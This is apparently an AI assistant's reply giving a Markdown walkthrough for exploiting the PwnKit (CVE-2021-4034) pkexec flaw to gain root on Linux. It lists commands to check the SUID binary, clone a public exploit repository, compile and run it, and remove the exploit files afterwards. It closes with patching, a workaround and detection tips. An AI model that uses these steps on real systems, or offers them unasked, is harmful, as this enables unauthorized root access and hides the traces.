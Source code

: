 Here's a full Markdown walkthrough on exploiting the **`pkexec` vulnerability (CVE-2021-4034, aka PwnKit)** — one of the most impactful local privilege escalation vulnerabilities in recent Linux history.

---

### 📄 `pkexec_exploit_walkthrough.md`

````markdown
# 🔓 Privilege Escalation via pkexec (CVE-2021-4034 - PwnKit)

> ⚠️ **Disclaimer**: This guide is for educational purposes and *authorized* penetration testing only. Do not attempt this on systems you do not own or have explicit written permission to test.

---

## 📌 What is pkexec?

- Part of **Polkit** (formerly PolicyKit)
- Used to execute commands as another user (like `sudo`)
- Present on most Linux distributions

---

## 🚨 CVE-2021-4034 Overview

- **Name**: PwnKit
- **Discovered by**: Qualys
- **Affected Component**: `pkexec`
- **Impact**: Local Privilege Escalation (LPE) to root
- **Exploitable**: Without any privileges or authentication

---

## ✅ Affected Systems

- Most major Linux distributions
- `pkexec` versions prior to fix in early 2022

---

## 🧪 Exploit Preconditions

- Access to a shell (e.g., via Telnet, SSH, or reverse shell)
- `pkexec` is installed (check with: `which pkexec`)

---

## 🔍 Step 1: Check for Vulnerability

```bash
pkexec --version
````

If present, the system may be vulnerable.

Check `pkexec` file:

```bash
ls -l /usr/bin/pkexec
```

Make sure it’s owned by root and has the SUID bit:

```bash
-rwsr-xr-x 1 root root 123456 Jan 12  2021 /usr/bin/pkexec
```

---

## 🧨 Step 2: Download Public Exploit

### Recommended Exploit (C-based)

Clone or copy this public exploit:

```bash
git clone https://github.com/berdav/CVE-2021-4034
cd CVE-2021-4034
```

Or manually copy the `exploit.c` from a trusted source like:

* [https://github.com/berdav/CVE-2021-4034/blob/main/exploit.c](https://github.com/berdav/CVE-2021-4034/blob/main/exploit.c)

---

## 🔧 Step 3: Compile the Exploit

```bash
gcc exploit.c -o pwnkit
chmod +x pwnkit
```

---

## 🚀 Step 4: Run the Exploit

```bash
./pwnkit
```

If successful, you’ll see:

```bash
# whoami
root
```

You now have a root shell.

---

## 🧼 Step 5: Clean Up

Always clean up after exploitation:

```bash
rm -f ./pwnkit exploit.c
```

---

## 🔒 Mitigation & Patching

### How to patch:

#### For Ubuntu/Debian:

```bash
sudo apt update && sudo apt upgrade polkit
```

#### For Red Hat/CentOS:

```bash
sudo yum update polkit
```

### Temporary Workaround:

Remove SUID bit (not recommended long-term):

```bash
chmod 0755 /usr/bin/pkexec
```

---

## 🛡 Detection Tips (for defenders)

* Monitor execution of `pkexec` by non-root users
* Audit logs (`/var/log/auth.log`) for unusual privilege escalations
* Use file integrity monitoring for `/usr/bin/pkexec`

---

## ✅ Summary

| Key Info      | Value                            |
| ------------- | -------------------------------- |
| CVE           | CVE-2021-4034                    |
| Affected Tool | `pkexec` (part of polkit)        |
| Exploit Type  | Local Privilege Escalation (LPE) |
| Fix           | Patch `polkit` to latest version |

